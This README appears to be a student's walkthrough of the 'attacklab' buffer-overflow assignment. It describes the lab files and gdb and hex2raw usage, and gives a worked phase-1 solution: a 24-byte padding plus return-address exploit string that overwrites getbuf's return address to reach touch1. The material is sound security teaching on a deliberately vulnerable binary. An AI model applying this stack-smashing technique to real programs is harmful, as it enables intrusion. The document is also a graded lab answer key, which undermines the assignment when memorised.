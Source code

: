 # attacklab

### Table of contents

* [File introduction](#file-introduction)
* [Commands](#commands)

<h3 id = "file introduction">File introduction</h3> 

README.txt: A file describing the contents of the directory

ctarget: An executable program vulnerable to code-injection attacks

rtarget: An executable program vulnerable to return-oriented-programming attacks

cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.

farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
	     programming attacks.

hex2raw: A utility to generate attack strings.

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

Functions Gets() and gets() have no way to determine whether their destination buffers are large
enough to store the string they read. They simply copy sequences of bytes, possibly overrunning the bounds of the storage allocated at the destinations.

The exploit string must not contain byte value 0x0a at any intermediate position, since this is the
ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to
terminate the string.

HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to
create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef
you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte
ordering). 

<h3 id = "commands">Commands</h3> 

#####Using HEX2RAW

```shell
unix> ./hex2raw < exploit.txt > exploit-raw.txt          # store the raw string in a file
```

#####Using GDB

```
unix> gdb ctarget                                        # use gdb to run ctarget
(gdb) run < exploit-raw.txt -q                           # add -q to run locally
(gdb) print <variable>                                   # print the value of the variable
(gdb) break *<addr>                                      # set break point
(gdb) x/<n/f/u> <addr>                                   # print the value stored at the address
```

More usages can be found in [gdb-ref](./gdb-ref.md)

#####Generating byte codes

```shell
unix> gcc -c example.s
unix> objdump -d example.o
```

---

### Part I: Code Injection Attacks

>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
>the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

#### phase1

Function getbuf is called within CTARGET by a function test having the following C code:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

When getbuf executes its return statement (line 5 of getbuf), the program ordinarily resumes execution
within function test (at line 5 of this function). We want to change this behavior. Within the file ctarget,
there is code for a function touch1 having the following C representation:

```c
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. We can overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. 

run ctarget executable in gdb and set a breakpoint at getbuf 

```shell
gdb ctarget
(gdb) break getbuf
(gdb) run -q
```

Then disasemble the getbuf function 

```
(gdb) disas
```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out. 

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

` sub $0x18,%rsp`  indicates that 24(0x18) bytes of buffer is allocated for getbuf. So we need to input 24 bytes of padding followed by the return address of the touch1. 

To find the address the touch1, we need to get the disassembled code.

```
(gdb) dissassemble touch1
```

 Then we get codes which looked like

```
Dump of assembler code for function touch1:
   0x0000555555555965 <+0>:	sub    $0x8,%rsp
   0x0000555555555969 <+4>:	movl   $0x1,0x202b69(%rip)        # 0x5555557584dc <vlevel>
   0x0000555555555973 <+14>:	lea    0x178d(%rip),%rdi        # 0x555555557107
   0x000055555555597a <+21>:	callq  0x555555554de0 <puts@plt>
   0x000055555555597f <+26>:	mov    $0x1,%edi
   0x0000555555555984 <+31>:	callq  0x555555555db6 <validate>
   0x0000555555555989 <+36>:	mov    $0x0,%edi
   0x000055555555598e <+41>:	callq  0x555555554f60 <exit@plt>
End of assembler dump.
```

So it's address is at `0x555555555965` 

We can also use `p touch1`  to get its address

```
(gdb) p touch
$1 = {void ()} 0x555555555965 <touch1>
```

Finally create a text file named atk1.txt which will look like below  

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    /* the first 24 padding bytes */
65 59 55 55 55 55 00 00    /* address of touch1 */
```

When writing the bytes, we need to consider the byte order. My system is a little-endian so the bytes go in reverse order.  

Now run this file through the program hex2raw, which  generates raw exploit strings , and run the raw file

```shell
./hex2raw < atk1.txt > atk1r.txt

./ctarget < atk1r.txt             # use I/O redirection

unix> gdb ctarget                 # within GDB
(gdb) run < atk1r.txt
```

We can get something like below if our solution is right

```shell
Cookie: 0x5f5bd74e                # your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

